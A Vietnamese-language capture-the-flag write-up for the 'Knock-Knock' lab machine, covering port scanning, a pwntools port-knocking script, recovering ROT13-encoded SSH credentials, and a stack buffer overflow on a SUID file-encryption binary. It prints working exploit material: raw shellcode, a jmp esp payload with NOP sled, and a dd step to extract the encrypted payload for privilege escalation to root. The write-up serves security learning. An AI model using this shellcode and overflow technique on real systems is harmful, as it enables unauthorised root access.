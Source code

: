# Knock-Knock
***
Tìm được địa chỉ máy victim: `192.168.132.152`
![](./image/image-1.png)
Sử dụng nmap quét OS và version
![](./image/image-2.png)
Nmap bị chặn scan OS và version, tiếp theo ta sẽ scan port
Ta thấy chỉ thấy cổng 1337 mở
![](./image/image-3.png)
Thử netcat vào thì trả về một list chứa ba số
![](./image/image-4.png)
Nhận được 3 giá trị có vẻ như là các port
Port Knocking là một kỹ thuật để kiểm soát quyền truy cập vào một cổng bằng cách chỉ cho phép người dùng hợp pháp truy cập vào dịch vụ đang chạy trên máy chủ. Nó hoạt động theo cách mà khi thực hiện đúng trình tự kết nối, tường lửa sẽ mở cổng đã bị đóng.
Ta viết một script để kết nối
```py
#!/usr/bin/python3
from pwn import *
from itertools import permutations

def Knock_Port(host,ports):
	perms = permutations(ports)
	for perm in perms:
		for port in perm:
			try:
				print("[+] Knocking on port: " ,port)
				r = remote(host,port)
			except:
				pass
		log.info("Knocking complete")
if __name__ == '__main__':
	host = '192.168.132.152'
	ports = 1337
	r = remote(host,ports)
	port = eval(r.recvline())
	print(port)
	Knock_Port(host	, port)
```
Chạy thử script sau đó scan lại port
![](./image/image-5.png)
![](./image/image-6.png)
Truy cập trên trình duyệt , xem mã nguồn thấy không có gì đặc biệt chỉ có ảnh knocknock.jpg. 
![](./image/image-7.png)
Ta tải ảnh về máy
`wget http://192.168.132.152/knockknock.jpg`
Dùng strings thấy một thông tin đăng nhập có vẻ được mã hóa
Đây là mã caesar với ROT 13
Decode ta được: `username: Jason password: jB9jP2knf`
![](./image/image-8.png)
SSH vào ta thấy một file thực thi tfc có quyền SUID
![](./image/image-9.png)
Đây là chương trình mã hóa tập tin, đối số thứ nhất là tệp đầu vào (văn bản thuần túy) và đối số thứ hai là tệp đầu ra (văn bản mật mã), cả đầu vào và đầu ra đều phải có đuôi .tfc , tải về máy local cho tiện khai thác
![](./image/image-10.png)
Sau khi đọc IDA ta hiểu được là chương trình sẽ XOR dữ liệu đầu vào và viết vào file out.tfc. Chương trình không giới hạn dữ liệu đầu vào
![](./image/image-14.png)
Cách giải quyết: Sử dụng đầu vào là payload overflow đã mã hóa 1 lần để tạo shell với quyền SIUD
`Payload = bytes to overflow + address of jmp esp + shellcode`
***
## Tìm số byte để overflow
Số byte: 4124
![](./image/image-15.png)
## Sử dụng msfelfscan để lấy địa chỉ jmp esp
![](./image/image-13.png)
```py
shellcode = b"\xdb\xc6\xd9\x74\x24\xf4\x5a\xb8\x7e\xda\xf3\x36\x31\xc9\xb1\x0b\x83\xea\xfc\x31\x42\x16\x03\x42\x16\xe2\x8b\xb0\xf8\x6e\xea\x17\x99\xe6\x21\xfb\xec\x10\x51\xd4\x9d\xb6\xa1\x42\x4d\x25\xc8\xfc\x18\x4a\x58\xe9\x13\x8d\x5c\xe9\x0c\xef\x35\x87\x7d\x9c\xad\x57\xd5\x31\xa4\xb9\x14\x35"
payload = b'A'*4124 + b'\x93\x8e\x04\x08'  + b'\x90'*20 + shellcode
payload = payload.ljust(5000,b'A')
print(payload)
```
Do 4 'A' luôn bắt đầu bằng cùng một byte ‘def0 5bab’ trong tệp được mã hóa, Vì vậy, 'def0 5bab' có thể được sử dụng như một mẫu để xác định vị trí dữ liệu được mã hóa trong tệp core.
![](./image/image-11.png)
![](./image/image-12.png)
copy core ra file exp.tfc bỏ qua 245888byte (từ 0x3c080)
`dd if=core of=exp.tfc skip=245888 count=5001 bs=1`
![](./image/image-16.png)
Khai thác trên máy local thành công , tiến hành upload file lên server để leo quyền
![](./image/image-17.png)
## ROOTED